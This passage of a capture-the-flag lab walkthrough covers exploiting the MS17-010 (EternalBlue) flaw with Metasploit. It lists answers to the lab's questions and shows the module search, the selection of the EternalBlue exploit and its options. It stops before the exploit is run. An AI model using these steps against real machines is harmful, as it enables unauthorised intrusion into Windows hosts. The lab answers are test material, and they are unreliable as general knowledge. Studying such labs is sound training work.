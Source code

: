 ```
           Raw packets sent: 1004 (44.152KB) | Rcvd: 1001 (40.064KB)
```

`No answer needed`

2. How many ports are open with a port number under 1000?

`3`

3. What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)

`ms17-010`

## [Task 2] Gain Access

Exploit the machine and gain a foothold.

1. Start Metasploit

`No answer needed`

2. Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)

```
msf5 > search ms17-010

Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
   0  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   1  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
   2  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   3  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
```

`exploit/windows/smb/ms17_010_eternalblue`

3. Show options and set the one required value. What is the name of this value? (All caps for submission)

```
msf5 > use exploit/windows/smb/ms17_010_eternalblue
msf5 exploit(windows/smb/ms17_010_eternalblue) > options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.

```